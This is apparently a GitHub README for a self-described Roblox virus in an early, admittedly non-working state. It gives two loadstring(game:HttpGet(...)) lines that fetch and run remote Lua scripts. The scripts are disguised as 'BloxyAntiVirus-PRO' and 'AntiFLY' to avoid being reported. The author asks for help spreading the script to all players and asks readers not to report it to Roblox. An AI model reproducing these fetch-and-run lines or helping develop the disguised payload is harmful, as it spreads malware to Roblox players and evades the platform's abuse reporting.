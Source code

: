 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

NOT WORKS VV
How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END-RoJack-/main/BloxyAntiVirus-PRO.lua'), game.ReplicatedFirst)
and
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/AntiFLY.Lua'), game.ReplicatedFirst)

(and the "AntiFLY" and "BloxyAntiVirus-PRO" is the mask of the virus, which makes no one with the Dex editor report this to roblox)
(And i need help to make that script executes on all players  )

AND PLEASE DO NOT FEEDBACK THIS TO ROBLOX OR I WOULD BE BREACHING MY AGREEMENT
